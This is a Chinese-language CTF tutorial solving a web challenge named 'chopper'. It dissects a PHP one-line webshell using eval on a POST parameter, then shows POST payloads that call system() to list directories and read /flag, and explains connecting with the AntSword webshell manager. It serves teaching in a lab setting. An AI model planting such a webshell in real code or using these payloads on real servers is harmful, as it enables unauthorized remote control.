# 网络安全入门：P150：真题讲解—chopper



## 概述
在本节课中，我们将学习如何分析并解决一道名为“chopper”的CTF Web安全挑战题。我们将从信息收集开始，识别并利用网页中的一句话木马，最终获取目标服务器上的flag。整个过程将涉及对PHP代码的理解、手动利用木马以及使用工具进行便捷管理。

## 信息收集与分析
上一节我们介绍了CTF挑战的基本思路，本节中我们来看看如何对目标进行信息收集。

访问题目提供的URL后，我们首先观察网页内容。页面上显示了一段PHP代码，标题包含“chopper”和“and sword”字样。

这段PHP代码是解题的关键。其核心结构如下：
```php
<?php @eval($_POST['a']); ?>
```
以下是这段代码的逐句分析：
1.  `<?php ... ?>`：这是PHP代码的开始和结束标签。
2.  `@`：这是一个错误控制运算符，用于抑制可能出现的错误信息，使木马更隐蔽。
3.  `eval()`：这是PHP的一个语言构造器（可理解为函数），其作用是将传入的字符串参数当作PHP代码来执行。
4.  `$_POST[‘a’]`：这是一个超全局变量，用于获取通过HTTP POST方法传递的参数`a`的值。



综合来看，这段代码构成了一个“一句话木马”。攻击者可以通过向该页面POST一个名为`a`的参数，其值可以是任意PHP代码，服务器端的`eval()`函数便会执行这段代码，从而实现对服务器的控制。

我们进一步查看网页源代码，未发现其他有价值的注释或隐藏信息。

因此，信息收集阶段结束。我们得到的关键发现是：**目标网站存在一句话木马**。





## 手动利用一句话木马
上一节我们识别出了一句话木马，本节中我们来看看如何手动利用它来执行命令。

根据木马原理，我们可以通过向该页面发送POST请求，并在参数`a`中携带我们想执行的PHP代码。代码末尾需要以分号`;`结束。

以下是操作步骤：
1.  我们可以使用浏览器的开发者工具（F12）中的“网络”标签页，或者使用Burp Suite、Postman等工具来发送POST请求。
2.  在请求体中，我们以`a=要执行的代码`的格式传递数据。

首先，我们进行一个简单测试，执行`phpinfo()`函数来确认木马可用性：
```
a=phpinfo();
```
服务器执行后，返回页面会显示PHP的配置信息，证明木马生效。


接下来，我们尝试执行系统命令。在PHP中，可以使用`system()`函数来执行操作系统命令。例如，我们查看当前目录下的文件：
```
a=system(“ls”);
```
执行后，查看返回页面的源代码（因为输出可能不会直接显示在页面上），可以发现当前目录下存在`index.php`文件。



显然，flag文件不在此处。根据经验，flag常位于网站根目录。我们查看根目录：
```
a=system(“ls /”);
```
查看返回页面的源代码，可以发现根目录下存在一个名为`flag`的文件。


最后，我们读取这个文件的内容：
```
a=system(“cat /flag”);
```
再次查看返回页面的源代码，即可获得本题的flag。



## 使用工具管理一句话木马
上一节我们演示了手动利用木马的方法，本节中我们来看看如何使用专业工具“蚁剑”来更高效地管理木马。





“蚁剑”是一款流行的网站管理工具，常用于连接和管理一句话木马。标题中的“and sword”即暗示了此工具。

以下是使用蚁剑连接木马的步骤：
1.  打开蚁剑软件。
2.  在空白处右键，选择“添加数据”。
3.  “URL地址”中填入木马所在的完整网址。
4.  “连接密码”中填入木马中使用的POST参数名，本例中为`a`。
5.  点击“测试连接”，显示成功后点击“添加”。

连接成功后，双击该数据行，即可像操作文件管理器一样浏览服务器上的目录结构。我们可以轻松地找到根目录下的`flag`文件，双击即可查看其内容，获得flag。

使用蚁剑的优势在于操作直观、便捷，可以方便地上传下载文件、执行命令等，极大提高了效率。

## 总结
本节课中我们一起学习了“chopper”这道CTF题目的完整解法。

我们首先通过**信息收集**发现了关键的一句话木马代码。然后，我们深入分析了该PHP木马的工作原理：它通过`eval($_POST[‘a’])`执行攻击者传递的任意代码。





基于此原理，我们掌握了两种利用方法：
1.  **手动利用**：通过发送携带PHP代码的POST请求，直接执行系统命令（如`ls`, `cat`），并通过查看网页源代码获取命令回显，最终找到并读取flag文件。
2.  **工具利用**：使用“蚁剑”工具，配置URL和连接密码后，可以图形化地管理服务器文件，更快捷地定位和读取flag。



本题的核心考察点是对**一句话木马的理解**以及**利用工具或手动方法控制WebShell**的能力。掌握这些是Web渗透测试入门的基础技能。